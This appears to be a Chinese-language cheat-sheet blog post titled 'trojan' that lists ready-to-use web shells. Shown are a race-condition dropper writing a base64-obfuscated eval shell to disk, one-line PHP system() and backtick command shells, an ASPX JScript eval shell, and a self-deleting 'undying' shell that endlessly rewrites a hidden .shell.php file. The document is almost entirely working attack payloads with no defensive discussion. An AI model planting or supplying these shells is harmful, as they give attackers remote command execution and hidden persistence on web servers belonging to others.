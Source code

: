 ```yaml
---
title: 木马
date: 2023-09-03 15:35:43
tags:
- 速查
categories:
- 速查
---
```




# 写马的马(条件竞争)

```
<?php fputs(fopen('cjc.php','w'),'<?php $b = "YXNzZXJ0";$a = base64_decode($b);@$a(eval($_POST["pass"]));?>');?>
```



# 小马

```
<?php $a="system";@$a($_REQUEST["pass"]);?>
```



# 极简马

```
<?=`$_GET[1]`;;?>
```



# JS马

```
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
```



# 不死马

```
<?php
  set_time_limit(0);
  ignore_user_abort(1);
  unlink(__FILE__);
  $filename = '.shell.php';
while(1){
    $content = "xxxxx";
  @file_put_contents(".shell.php", $content);
  eval(system("Attrib +s +a +h +r .shell.php"));
}
  echo "1";
  usleep(1);
?>
```

`xxxxx`写马的内容
